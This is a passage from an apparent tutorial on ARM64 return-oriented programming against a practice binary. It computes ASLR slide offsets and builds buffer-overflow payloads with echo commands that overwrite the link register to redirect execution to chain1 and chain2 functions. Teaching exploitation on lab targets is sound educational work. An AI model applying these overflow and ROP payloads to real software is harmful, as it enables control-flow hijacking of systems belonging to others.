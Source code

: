 Slid address of the second instruction of chain1 = 
{% highlight c %}
hex(0x100007cdc + 0x234000) = 0x10023bcdc or 0x000000010023bcdc
{% endhighlight %}

Let's put this in our payload

{% highlight c %}
echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xdc\xbc\x23\x00\x01\x00\x00\x00" > hax.bin
{% endhighlight %}


Remove any previous hax.bin file also if any and create a new one as shown below.

![1]({{site.baseurl}}/images/posts/arm/20.png)

Press enter on the running rop binary and you will see that the first chain gets executed. Nice, we are halfway there. Now we need to find a way to execute chain2 function.

![1]({{site.baseurl}}/images/posts/arm/22.png)

Now we need to keep entering our payloads until we overwrite the lr again. We can then change the lr again to point to chain2 function.

After testing several times we come up with the following payload using which we are able to overwrite lr register again.

{% highlight c %}
echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x42\x42\x42\x42\x46\x46\x46\x46\x46\x46\x46\x46\x48\x48\x48\x48\x48\x48\x48\x48" > hax.bin
{% endhighlight %}

* /x41 is the initial junk
* /x42 should point to the initial lr register which we should set to the second instruction of the chain1 function
* /x46 is junk as well
* /x48 should point to the chain2 function

Ok, will all this information in place, we are now able to write our rop chain again. 

Let's run the program again. Address of main function is 0x1008b3d50 this time.

![1]({{site.baseurl}}/images/posts/arm/23.png)


{% highlight c %}
slide = hex(0x1008b3d50 - 0x100007d50) = 0x8ac000
{% endhighlight %}
